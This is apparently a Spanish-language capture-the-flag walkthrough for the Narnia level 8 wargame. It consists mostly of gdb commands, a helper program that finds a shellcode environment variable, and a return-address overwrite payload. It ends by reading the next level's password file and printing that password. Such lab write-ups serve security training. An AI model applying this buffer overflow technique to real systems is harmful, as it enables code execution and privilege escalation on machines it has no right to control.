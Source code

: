 Aquí tenemos un desbordamiento potencial en la variable bok

~~~
./narnia8 $(python -c 'print 20 * "A"')
./narnia8 $(python -c 'print 21 * "A"')

gdb narnia8
set disassembly-flavor intel
disas func
break *func+106
run $(python -c 'print 20 * "A"')
run $(python -c 'print 21 * "A"')
x/16wx $esp
run $(python -c 'print 22 * "A"')
x/16wx $esp

run $(python -c 'print 20 * "A"')
x/16wx $esp
x/s 0xffffd871
~~~
La dirección 0x080484a7 es de hecho la dirección de retorno
~~~
run $(python -c 'print 20 * "A"')
x/20xw $esp
disas main
run $(python -c 'print 20 * "A"')
x/16x $esp

x/s *((char **)environ)
run $(python -c 'print 20 * "A" + "\x40\xd8\xff\xff" + "AAAA" + "\x92\xde\xff\xff"')
x/16xw $esp
continue
~~~
Busquemos la variable de entorno SHELLCODE con el siguiente código

~~~
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
~~~
compilarlo en /tmp

~~~
cd /tmp
gcc -m32 find_addr.c -o find_addr
./find_addr SHELLCODE
./narnia8  $(python -c 'print 20 * "A"')  | xxd
python -c 'print "{:8x}".format(0xffffd86a-12)'
./narnia8 $(python -c 'print 20 * "A" + "\x5e\xd8\xff\xff" + "AAAA" + "\xa1\xde\xff\xff"')
whoami
cat /etc/narnia_pass/narnia9

eiL5fealae
~~~


